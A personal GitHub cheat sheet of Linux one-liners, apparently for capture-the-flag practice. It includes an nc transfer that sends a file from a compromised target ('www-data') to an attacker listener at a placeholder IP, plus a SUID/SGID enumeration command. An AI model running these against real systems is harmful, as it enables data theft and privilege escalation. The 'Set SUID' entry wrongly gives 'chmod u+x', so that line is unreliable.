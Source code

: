 # Fancy commands 

Some fancy command I forget time by time

## Table of Contents

- [Get my IP](#get-my-ip)
- [Copy from a certain line number until the end of the file](#copy-from-a-certain-line-number-until-the-end-of-the-file)
- [Generate a linux password](#generate-a-linux-password)
- [Count the number of accounts on a *nix box](#count-the-number-of-accounts-on-a-nix-box)
- [Pick up some 5 random lines of a file](#pick-up-some-5-random-lines-of-a-file)
- [Set SUID permission](#set-suid-permission)
- [Sorting a text file](#sorting-a-text-file)
- [Transfer a file with nc between 2 computers](#transfer-a-file-with-nc-between-2-computers)
- [Other things not classified](#other-things-not-classified)

## Get my IP

````commandline
hostname -I | awk '{print $1}'
````

## Copy from a certain line number until the end of the file

````commandline
sed -n '1792,$p' Hot_Babe.png > wordlist.txt
````

## Count the number of accounts on a *nix box

```commandline
gawk -F: '{ print $1 }' /etc/passwd | wc -l
```

N.B. User accounts are account with `uid` starting from `1000`.

## Pick up some 5 random lines of a file

```commandline
head /usr/share/wordlists/rockyou.txt -n 10000 | shuf -n 5 -
```

## Set SUID permission

```commandline
chmod u+x <filename>
```

## Sorting a text file

```commandline
sort to_sort.txt > sorted.txt
```

## Transfer a file with nc between 2 computers

Let say we have a file on the target machine we want to transfer to the host machine: For the fun, let's first create a file on the target machine with some meaningful content we want to transfer.

```commandline
echo "Foo says bla bla to Bar" > /tmp/foo-message.txt
```

Now, we first need to put a `NetCat` listener on the host (destination) and then send it from the target (source).

On the host (the destination, the listener):

```commandline
root@kali:~/tryhackme/startup# nc -l -p 9999 > foo-message.txt
```

On the target:

```commandline
www-data@startup:/incidents$ nc -w 3 <IP-DESTINATION> 9999 < foo-message.txt
```

Where `-w 3` is the time out in seconds. See `nc -h` for more info.

## Other things not classified

```commandline
┌──(itchy㉿scratchy)-[~]
└─$ ifconfig tun0 | grep -i 'inet ' | awk -F' ' '{print $2}'
10.8.208.30
```

Find all the SUID/SGID executables:

```commandline
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

```commandline
while read line; do echo $line; done < clue.txt
```